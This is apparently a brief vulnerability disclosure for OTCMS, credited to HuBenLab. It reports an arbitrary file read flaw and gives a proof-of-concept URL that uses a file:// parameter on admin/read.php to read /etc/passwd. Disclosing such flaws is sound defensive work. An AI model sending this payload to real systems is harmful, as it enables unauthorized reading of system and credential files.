

# OTCMS was discovered to contain an arbitrary file read vulenrability via the filename
## Description
    OTCMS was discovered to contain an arbitrary file read vulenrability via the filename
## Vendor Homepage
    http://otcms.com/

## Author
    HuBenLab
## Proof of Concept
payload:

```
http://otcms/admin/read.php?mudi=announContent&url=file:///etc/passwd
```

